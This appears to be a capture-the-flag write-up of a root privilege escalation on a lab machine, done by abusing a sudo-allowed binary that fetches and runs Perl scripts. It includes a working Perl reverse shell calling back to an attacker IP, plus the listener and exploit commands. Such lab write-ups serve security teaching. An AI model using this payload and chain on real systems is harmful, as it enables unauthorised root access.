 1) I see the list user's privileges:
```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

2) I open a web server in the target machine:
```
smorton@investigation:~$ cd /usr/bin/
smorton@investigation:/usr/bin$  python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

3) I download the binary:
```
┌──(kali㉿kali)-[~]
└─$ mkdir smorton                            
 
┌──(kali㉿kali)-[~]
└─$ cd smorton        
  
┌──(kali㉿kali)-[~/smorton]
└─$ wget http://10.10.11.197:1234/binary
--2023-02-26 15:47:46--  http://10.10.11.197:1234/binary
Connecting to 10.10.11.197:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19024 (19K) [application/octet-stream]
Saving to: ‘binary’

binary                                                     100%[=======================================================================================================================================>]  18.58K  --.-KB/s    in 0.05s   

2023-02-26 15:47:46 (390 KB/s) - ‘binary’ saved [19024/19024]

┌──(kali㉿kali)-[~/smorton]
└─$ file binary                                                                                                                           
binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a703575c5c944bfcfea8a04f0aabaf0b4fa9f7cb, for GNU/Linux 3.2.0, not stripped

```

4) I upload the binary file to an [online decompiler](https://dogbolt.org/). I  see what the source code.
5) I extract the program's main function:
```cpp
int32_t main(int32_t argc, char** argv, char** envp)  
{  
if (argc != 3)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
if (getuid() != 0)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
if (strcmp(argv[2], "lDnxUysaQn") != 0)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
puts("Running... ");  
FILE* rax_8 = fopen(argv[2], &data_2027);  
int64_t rax_9 = curl_easy_init();  
int32_t var_40 = 0x2712;  
curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712);  
int32_t var_3c = 0x2711;  
curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711);  
int32_t var_38 = 0x2d;  
curl_easy_setopt(rax_9, 0x2d, 1, 0x2d);  
if (curl_easy_perform(rax_9) != 0)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
int64_t rax_25 = snprintf(nullptr, 0, &data_202a, argv[2]);  
char* rax_28 = malloc((rax_25 + 1));  
snprintf(rax_28, (rax_25 + 1), &data_202a, argv[2]);  
int64_t rax_37 = snprintf(nullptr, 0, "perl ./%s", rax_28);  
char* rax_40 = malloc((rax_37 + 1));  
snprintf(rax_40, (rax_37 + 1), "perl ./%s", rax_28);  
fclose(rax_8);  
curl_easy_cleanup(rax_9);  
setuid(0);  
system(rax_40);  
system("rm -f ./lDnxUysaQn");  
return 0;  
}
```

--> First, it checks if three input parameters have been sent and exits if not.
--> Then in the second if , check if a root user calls it  and exit if not.
--> In the third if, it checks if the third parameter is equal to the string lDnxUysaQn and if not 
      it exits.
--> Finally, it opens a file with curl specified by the second parameter and reads and executes 
     it with perl.

6) I create a file with inside the reverse shell in php, I use this site to write the reverse shell "[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)"  
```
┌──(kali㉿kali)-[~/smorton]
└─$ nano shell.pl     
  
┌──(kali㉿kali)-[~/smorton]
└─$ cat shell.pl 
```
```perl
use Socket;  
$i="10.10.14.248";  
$p=9001;  
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));  
if(connect(S,sockaddr_in($p,inet_aton($i)))){  
open(STDIN,">&S");open(STDOUT,">&S");  
open(STDERR,">&S");exec("/bin/bash -i");  
};
```

7) I open a listening port:
```
┌──(kali㉿kali)-[~/smorton]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
```

8) In the local machine open a web server:
```
┌──(kali㉿kali)-[~/smorton]
└─$ python3 -m http.server 3333
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...
```

9) Then in the target machine I execute the binary file:
```
smorton@investigation:/$ sudo /usr/bin/binary 10.10.14.248:3333/shell.pl  lDnxUysaQn 
Running... 
```

10) I get the root shell and the root.txt:

```
┌──(kali㉿kali)-[~/smorton]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
root@investigation:/# cat /root/root.txt
cat /root/root.txt
d7e782894der8fsdttrte5ksd3218c45
```